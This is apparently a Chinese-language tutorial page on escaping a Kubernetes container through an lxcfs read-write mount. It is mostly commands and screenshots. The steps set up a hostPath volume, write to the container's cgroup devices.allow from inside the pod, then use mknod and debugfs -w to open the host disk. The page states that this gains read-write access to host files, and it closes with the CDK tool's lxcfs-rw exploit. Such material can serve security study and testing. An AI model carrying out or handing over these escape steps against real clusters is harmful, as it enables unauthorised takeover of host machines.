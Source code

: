 ```plain
    volumeMounts:
    - name: test-data
      mountPath: /data
      mountPropagation: HostToContainer
  volumes:
  - name: test-data
    hostPath:
      path: /data
      type: ""
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665642310384-85b25486-6ff2-4536-a33d-27c3dcfca003.png)

```plain
#在Node工作节点上安装lxcfs
dnf -y install lxcfs

#修改/data/test/lxcfs权限
lxcfs /data/test/lxcfs
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665642335984-50d32d28-3747-425c-8753-9e8453e94f57.png)

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665642394652-b0f40a1c-d324-4846-9ec3-945cd62828da.png)

```plain
kubectl exec -n default lxcfs-rw -it bash
cat /proc/self/mountinfo | grep etc/
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665642451308-767092df-d56d-4683-9cf4-8463f4335078.png)

```plain
find /data/test/lxcfs/ -name "devices.allow"

echo a > /data/test/lxcfs/cgroup/devices/kubepods.slice/kubepods-besteffort.slice/kubepods-besteffort-podb967720b_f760_41b4_b4b2_ec54569de823.slice/docker-cdc202275e7e935789738360225638bd797a0dd486b2d475babade4231b9e336.scope/devices.allow

mknod near b 253 1
debugfs -w near
```

成功获取宿主机读写文件权限

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665642707299-867943f7-d35b-4c9b-a96d-60129b12e437.png)

```plain
使用cdk工具利用
./cdk run lxcfs-rw
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665642763847-a71dd0e8-0975-4516-8dc4-375d43298975.png)
